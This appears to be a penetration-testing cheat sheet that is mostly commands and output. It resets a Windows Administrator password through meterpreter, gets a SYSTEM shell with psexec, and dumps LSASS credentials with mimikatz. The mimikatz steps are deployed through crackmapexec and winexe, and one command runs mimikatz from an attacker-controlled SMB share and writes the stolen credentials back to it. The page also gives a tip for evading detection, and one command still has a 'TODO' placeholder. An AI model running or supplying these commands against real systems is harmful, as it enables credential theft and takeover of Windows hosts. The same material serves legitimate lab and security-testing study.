 `password_change`
```
meterpreter > password_change -p ejfnIWWDojfWEKM -P akrech404 -u Administrator
[*] No server (-s) specified, defaulting to localhost.
[+] Success! New NTLM hash: 2081d1de9b8df44ed3a37963ae802d10
```
#### Login with the new password
```
┌──(kali㉿bughunt3r)-[/opt/win]
└─$ python3 psexec.py Administrator:akrech404@10.10.10.40
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Requesting shares on 10.10.10.40.....
[*] Found writable share ADMIN$
[*] Uploading file MiONxDaQ.exe
[*] Opening SVCManager on 10.10.10.40.....
[*] Creating service xXQL on 10.10.10.40.....
[*] Starting service xXQL.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32> 
```
# mimikatz

If you have an LSASS dump, you can use the minidump module
```
mimikatz # sekurlsa::minidump lsass.DMP
```
```
mimikatz # sekurlsa::logonPasswords /full
```
* You can upload mimikatz to a remote machine with smbclient
* Or you can use crackmapexec
* Executon may fail but the binary will be uploaded in C:\\Windows\\mimikatz.exe
```
crackmapexec IP -u user -p password -M mimikatz
```

* Then you can execute remotely through winexe

```
winexe -U admin%password //IP C:\\Windows\\mimikatz.exe
```
* Password dumping
```
mimikatz # privilege::debug
mimikatz # sekurlsa::logonPasswords /full
```
* In case of Mimikatz is trigerred on the target machine, you can try bring it up using network share
```
sudo python smbserver.py SHARE /home/xxxxx/share_path/
```
```
sudo ./venv/bin/crackmapexec smb IP -u "xxx" -p "xxx" -X '\\share_ip\SHARE\mimikatz.exe "privilege::debug" "sekurlsa::logonPasswords /full" exit > \\share_ip\SHARE\mimiout_$env:computername.txt'
```
* In order to be stealthier, you can even do the same for procdump
```
sudo ./venv/bin/crackmapexec smb IP -u "xxx" -p "xxx" -X '\\share_ip\SHARE\procdump.exe "TODO"'
```
------------------------
# impacket
